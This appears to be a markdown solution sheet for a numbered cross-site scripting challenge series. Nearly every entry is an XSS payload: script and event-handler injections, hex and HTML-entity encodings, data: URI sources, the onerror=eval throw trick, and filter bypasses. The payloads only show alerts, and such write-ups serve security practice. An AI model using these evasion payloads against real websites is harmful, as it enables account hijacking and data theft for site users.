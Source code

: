 # 1
`<script>alert("XSS")</script>`
# 2
`<img src=x onerror="alert(document.domain)" />`
# 3
`javascript:alert("XSS")`
# 4-1
- Encode `<img src=x onerror="alert('XSS')" />` to hex
`\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x22\x61\x6c\x65\x72\x74\x28\x27\x58\x53\x53\x27\x29\x22\x20\x2f\x3e`
# 4-2
`${String.fromCharCode(60)}img src=a onerror="alert('XSS')" /${String.fromCharCode(62)}`
`${String.fromCharCode(60)}img src=a onerror="alert(doc${String.fromCharCode(117)}ment.domain)" /${String.fromCharCode(62)}`

# 5
- use [jjencode](http://utf-8.jp/public/jjencode.html)

# 6-1
- html entities is not safe in onerror
- encode `alert(document.domain)`
    - `<img src=x onerror="&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x64;&#x6F;&#x6D;&#x61;&#x69;&#x6E;&#x29;">`

# 6-2
- cannot use onerror
- use `data:` uri at script src
    - [data uri](https://developer.mozilla.org/ja/docs/Web/HTTP/Basics_of_HTTP/Data_URIs)
- `<script src="data:text/plain;base64,YWxlcnQoIlhTUyIp"></script>`
- `<script src="data:text/plain;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>`

# 6-3
- cannot use onerror, onclick or anything like these

- encode `javascript:alert("XSS")` in html entities and set it as href
- `<a href="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x58;&#x53;&#x53;&#x22;&#x29;">click</a>`

- or `javascript:alert(document.domain)`
- `<a href="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x64;&#x6F;&#x6D;&#x61;&#x69;&#x6E;&#x29;>click</a>`


# 7-1
- `<script>alert(String.fromCharCode(88)+String.fromCharCode(83)+String.fromCharCode(83))</script>`
- `<script>alert(String.fromCharCode(88,83,83))</script>`
- `<script>alert(document.domain)</script>`

# 7-2
- Same as 7-1

# 8-1
- We can inject payload at span id
    - `<span id="{escaped_payload}">`
    - Can't use `()<>`
- Use onclick and html entities
- `" onclick="&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x58;&#x53;&#x53;&#x22;&#x29;""`
- Activate XSS by clicking span tag
- `" onclick="&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x64;&#x6F;&#x6D;&#x61;&#x69;&#x6E;&#x29;""`

# 8-2
- Use technique to XSS without parentheses
    - [XSS without parentheses](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)
- e.g., `onerror=alert;throw 1;`
    - this will show an alert window with the following message: "Uncaught 1"
    - By default since the exception is "Uncaught" the onerror function is called with "Uncaught" as the argument
    - and the threwn object (?) is appended

- So to use eval at onerror we need to handle the default argument "Uncaught" properly so the javascript intepreter will not experience syntax errors

- Try to make it like `onerror=eval; throw '=1; alert("XSS")'`
    - The actual eval should look like `eval('Uncaught=1; alert("XSS")')`

- Or for short try something like `onerror=eval; throw'=alert("XSS")'`
    - The actual eval should look like `eval('Uncaught=alert("XSS")'`

## Answer
### Chrome
- `" onclick="window.onerror=eval; throw '=alert\x28\x22XSS\x22\x29'""`
    - Don't forget the **window** at `window.onerror`
    - Don't forget to use hex for " and () at `alert("XSS")`
- `" onclick="window.onerror=eval; throw '=alert\x28document.domain\x29'""`
### Firefox
- `" onmouseover="window.onerror=eval; throw {lineNumber:1,columnNumber:2,fileName:1,message:'alert\x28\x22XSS\x22\x29'}`
- `" onmouseover="window.onerror=eval; throw {lineNumber:1,columnNumber:2,fileName:1,message:'alert\x28document.domain\x29'}`


# 9-1
- Use capital letters
- `<SCRIPT>alert("XSS")</SCRIPT>`
- `<SCRIPT>alert(document.domain)</SCRIPT>`

# 9-2
- Exploit regex replacement
- `<sscriptcript>alert("XSS")</sscriptcript>`
- `<sscriptcript>alert(document.domain)</sscriptcript>`

- Or this
- `<img/src/onerror=alert("XSS")>`
    - [xss without spaces](https://gist.github.com/m1el/5093530)
